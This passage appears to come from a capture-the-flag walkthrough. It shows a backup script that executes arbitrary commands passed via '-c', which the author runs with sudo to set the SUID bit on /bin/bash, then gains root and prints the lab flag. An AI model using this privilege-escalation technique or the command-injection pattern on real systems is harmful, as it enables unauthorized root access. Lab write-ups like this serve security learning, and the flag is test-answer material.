 ```bash
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
- Looking inside the `while` look, we can see that the program takes in user command identified by `-c`, and executes it.
- Using this knowledge, we can set the `suid` bit on the `/bin/bash` file.
```
$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```
- Now on executing the `bash` command, we will get root privilege.
- Let's check our effective ID.
```
bash-4.3# id
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(alex)
```
- We can now go the `/root` directory.
```
bash-4.3# cd /root
bash-4.3# ls
root.txt
```
- Let's `cat` the flag.
```
bash-4.3# cat root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```